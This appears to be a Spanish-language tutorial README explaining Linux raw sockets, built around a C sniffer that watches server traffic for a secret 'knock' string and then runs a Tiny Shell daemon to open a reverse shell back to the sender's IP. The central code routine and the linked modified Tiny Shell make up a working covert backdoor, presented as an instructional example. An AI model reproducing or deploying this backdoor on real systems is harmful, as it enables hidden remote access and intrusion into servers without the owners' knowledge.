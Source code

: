 # Raw sockets en Linux
Los sockets, como bien nos ha enseñado Secu, sirven para conectar máquinas mediante la red.  
A nivel de sistema, los sockets son identificadores asociados a estructuras de datos, que el kernel procesa para enviar y recibir, una vez el espacio  
de usuario cede el control a éste.  
Digamos que cuando llamamos a la función socket() para crear uno, ésta si es correcto nos devuelve un valor entero de 0 a 1024 (o los máximos  
permitidos por aplicación y sistema).  
Este identificador, está registrado en una estructura del kernel de forma que cada vez que realizamos una operación, al final las realizamos aplicándolas  
a un número que luego el kernel convierte en proceso asociado a esa "conexión".  
Pero un raw socket, como su nombre indica, es "crudo", sin "cocinar". Si no entiendes la metáfora, te explico que normalmente un socket se crea asociado  
a dos protocolos. Y uno transparente asociado a uno de ellos. Por ejemplo: socket(AF_INET, SOCK_STREAM, IPPROTO_IP); creará un socket Ethernet  
(transparente), IP y TCP (por órden de menor a mayor nivel). Esto significa que el kernel va a interpretar que nosotros vamos a hacer operaciones bajo  
esa capa. Pero y si nosotros queremos implementar nuestro propio protocolo Ethernet o IP? Usaremos un raw socket. Pero desde espacio de usuario, no  
será tan sencillo. Porque seguramente el kernel no reconozca el tipo de pacquete y lo descarte. Tanto de salida como de entrada. Aunque para ello, tenemos  
opciones de configuración del kernel que nos permitirán enviar tal cual la información desde la capa ethernet hasta el protocolo que queramos. Como si  
queremos reimplementar IP. Pero claro, solo nosotros sabemos la especificación. Nadie más nos entenderá...  
  
Otra faceta de los raw sockets, es que además de enviar información libre de capas, nos permite recibir libre de conexiones. Es decir, si nosotros  
no hemos establecido conexión con un servidor que otro programa sí, por haber creado un raw socket podemos escuchar el tráfico de otro programa. En realidad,  
como root podemos escuchar todo el tráfico de red. Todo lo que pasa por el cable ethernet, se puede leer... es así como se implementan los sniffers.  
Wireshark no es más que un montón de código que procesa la entrada de un raw socket. Pero éste usa una librería llamada libpcap (creo que es esa y no  
libnet aunque esta era para eso en su día) que nos permite usar raw sockets desde una API más sencilla y cómoda.  
  
Para el ejemplo que os voy a enseñar, implementaremos los raw sockets desde la capa más baja que podemos desde un programa en C y para Linux... se trata  
de un sniffer, que cuando escucha un paquete concreto (con unos datos concretos (contraseña)), ejecuta una reverse shell hacia el orígen de ese paquete,  
y el puerto por donde entró.  
Por ejemplo, si yo envío "HOLA K ASE" a un apache escuchando en el puerto 443 en un servidor, el sniffer detectará la contraseña "HOLA K ASE" y  
conectará a la IP que envió ese paquete, por el puerto 80 o 443 (según conectó) y le abrirá una shell si conecta. Para ello, implementaremos un  
sniffer en el servidor y usaremos la tiny-shell de Chrispher Devine, ejecutada con un system() con parámetros de reverse shell. Y en la parte cliente,  
pondremos un cliente TCP en sockets normales, que ejecutará el cliente de la shell que será un cliente en escucha en el puerto 443... para escuchar en ese  
puerto y cuando reciba la conexión, entre en modo redirección de datos. Creo que con netcat podemos. Pero lo dejo en el aire por si no, y ya cuando  
haga el desarrollo lo veréis tal cual sea.  

# Enlaces de interés
Aquí os dejo los enlaces para obtener las herramientas usadas en el ejemplo, y de utilidad:

- modified Tiny shell https://github.com/D1W0U/tsh  
- sniffer adaptado http://www.binarytides.com/packet-sniffer-code-c-linux/  
- un ejemplo de envio frames ethernet https://gist.github.com/austinmarton/1922600
- y su post https://austinmarton.wordpress.com/2011/09/14/sending-raw-ethernet-packets-from-a-specific-interface-in-c-on-linux/

# Conceptos básicos
Para crear un socket de tipo raw, debemos usar la macro SOCK_RAW. Pero podemos estar a un nivel diferente en función de con qué parámetros lo creamos. Por ejemplo para estar desde la capa ethernet, podemos usar socket(AF_PACKET, SOCK_RAW, IPPROTO_RAW), pero para estar en la capa TCP/IP socket(AF_PACKET, SOCK_RAW, IPPROTO_TCP), para la capa UDP/IP socket(AF_PACKET, SOCK_RAW, IPPROTO_UDP).

Nosotros en el ejercicio estamos en TCP/IP.

Usamos las funciones recvfrom() y sendto(), NO send() y recv(), o read() y write(). Porque debemos pasarle una estructura sockaddr que le dice al kernel dónde tiene que enviar, o de dónde recibir. Ya que no la coge directamente del paquete.

Recibimos y enviamos frames, OJO, NO datos encapsulados. Si no datos en crudo (RAW).

Por eso que usamos esta forma de posicionarnos en los diferentes protocolos de transmisión:

```
char sendbuf[1500]; // deberíamos usar el MTU
struct ether_header *eh = (struct ether_header *) sendbuf;
struct iphdr *iph = (struct iphdr *) (sendbuf + sizeof(struct ether_header));
```

# Explicación del sniffer
Me voy a centrar en la rutina que analiza el tráfico TCP y decide si lanzar o no la reverse y hacia dónde.

```
// a esta función le llega un frame (buffer) y el tamaño del frame.
// y decide si lanzar el tiny-shell daemon en modo connect-back o no.
// para ello, detectamos un paquete con datos, cuyo únicos datos,
// sea la REQUEST_KEY (OLA K ASE).
void check_cb_request(unsigned char *buffer, size_t size) {
	// el socket nos captura desde el protocolo IP, por tanto buffer+0 tiene el primer byte del protocolo IP.
    struct iphdr *iph = (struct iphdr *)buffer;
	// el segundo protocolo después de IP, que hemos elegido, es TCP. Calculamos el tamaño del protocolo IP con iph->ihl * 4.
    struct tcphdr *tcph = (struct tcphdr *)(buffer + iph->ihl * 4);
	// y después del protocolo tcp, vienen los datos. Que están desde el inicio de TCP hasta tcph->doff * 4.
	// por tanto data apunta a los datos del paquete que nos llega al sniffer, por TCP/IP.
    char *data = (char *)(buffer + iph->ihl * 4 + tcph->doff * 4);
	// el tamaño de data, es el tamaño del frame, menos el tamaño de los protocolo. Porque nuestro frame está así: [IP][TCP][DATOS].
	// pero recordad que si capturásemos ethernet también, sería: [ETHERNET][IP][TCP][DATOS].
    size_t data_sz = size - tcph->doff * 4 - iph->ihl * 4;
    char *sip = NULL;
    struct in_addr saddr = { .s_addr = 0 };
    char rshell_cmd[1024];
    pid_t pid = 0;

	// esta es la clave maestra, el knock knock, para que el sniffer ejecute la shell reversa.
    #define REQUEST_KEY "OLA K ASE"
	// comprobamos que las flags de TCP sean PUSH | ACK. Porque los datos se envían en paquetes con estas flags.
	// Podríamos hacer un cliente que enviase en el parámetro window de tcp, un valor como 0x1337.
	// pero como usamos netcat, analizamos todos los paquetes de datos TCP (entrantes y salientes OJO).
    if (tcph->psh && tcph->ack /*&& tcp->window == 0x1337*/) {
        // tenemos datos
		// si los datos son exactamente la REQUEST_KEY...
        if (data_sz == strlen(REQUEST_KEY) && strncmp(data, REQUEST_KEY, data_sz) == 0) {
			// cogemos la IP que nos ha enviado la REQUEST_KEY,
            saddr.s_addr = iph->saddr;
            sip = inet_ntoa(saddr);
			// (esto es para que el printf() no imprima más hallá de la REQUEST_KEY).
            data[data_sz] = 0;
            printf("Got request on port %d from IP %s (%s).\n", ntohs(tcph->th_dport), sip, data);
			// y formateamos un comando con la IP para connect back y el puerto. El puerto es el puerto donde llegó el paquete TCP/IP con datos, más 1.
            snprintf(rshell_cmd, sizeof(rshell_cmd), "./tsh/tshd -c %s -p %d", sip, ntohs(tcph->th_dport) + 1);
            printf("Launching reverse shell... (%s)\n", rshell_cmd);
			// lanzamos la reverse, y debería conectarnos y abrirnos una shell.
            system(rshell_cmd);
        }
    }
}
```

# Despedida
Espero que os haya quedado claro el concepto de raw socket. Y el ejemplo.  

Un saludo.  

-D1W0U
